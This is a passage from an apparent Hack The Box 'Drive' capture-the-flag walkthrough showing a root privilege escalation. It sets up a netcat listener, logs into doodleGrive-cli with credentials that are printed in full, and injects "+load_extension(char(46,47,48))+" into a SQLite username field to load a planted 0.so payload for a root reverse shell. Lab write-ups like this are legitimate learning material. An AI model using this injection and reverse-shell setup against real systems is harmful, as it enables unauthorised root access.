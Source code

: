 ### Note

- (YOU HAVE TO GIVE YOUR PAYLOAD NAME 0.so !!!!!!) & transfer 0.so file in /home/tom (IMPORTANT)
---

- Now that is completed on our ssh session we can see the file available.

```
tom@drive:~$ ls
0.so  doodleGrive-cli  README.txt  user.txt
```

- Now start a nc listener on port 65500

```
root㉿kali)-[~/ctf/hack-the-box/drive]
└─# nc -nvlp 65500           
listening on [any] 65500 ...
```

```
./doodleGrive-cli
username:moriarty
password:findMeIfY0uC@nMr.Holmz!
Select option: 5
then give this command for Enter username activate account: "+load_extension(char(46,47,48))+"
check you nc listener you should get a reverse shell as root.
```

```
tom@drive:~$ ./doodleGrive-cli
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,48))+"
Activating account for user '"+load_extension(char(46,47,48))+"'...
```

- In SQLite, the load_extension function is used to load an SQLite extension in the database system. 
The function takes a single argument, which is the name of the shared library that contains the extension.
